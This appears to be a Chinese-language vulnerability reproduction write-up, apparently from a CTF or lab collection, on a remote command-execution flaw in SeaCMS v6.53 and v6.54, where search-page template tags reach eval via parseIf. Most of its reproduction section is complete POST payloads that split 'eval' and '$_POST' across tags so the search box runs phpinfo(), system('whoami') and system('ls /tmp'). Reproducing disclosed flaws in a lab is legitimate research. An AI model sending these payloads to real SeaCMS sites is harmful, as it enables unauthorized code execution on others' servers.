





# seacms-v6.53 命令执行漏洞 by [Aa1141415869](https://github.com/Aa1141415869)

## 一、漏洞描述

echoSearchPage 函数中的 content 变量传给了 parself 函数，跟踪代码，找到 ./include/main.class.php，可以看到 parseIf 函数会将 content 内容 eval  执行，造成命令执行。




## 二、影响版本

 seacms v6.53、seacmsv6.54 版本

## 三、复现过程

### 1.抓取搜索框数据包将原本内容换为网上 Poc 的内容

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo();
```







### 2.将数据包放过 查看返回结果 可见写入 9[] 的代码被执行




### 3.进一步利用，可以执行系统命令

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("whoami");
```


### 4.获取 Flag

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("ls /tmp");
```


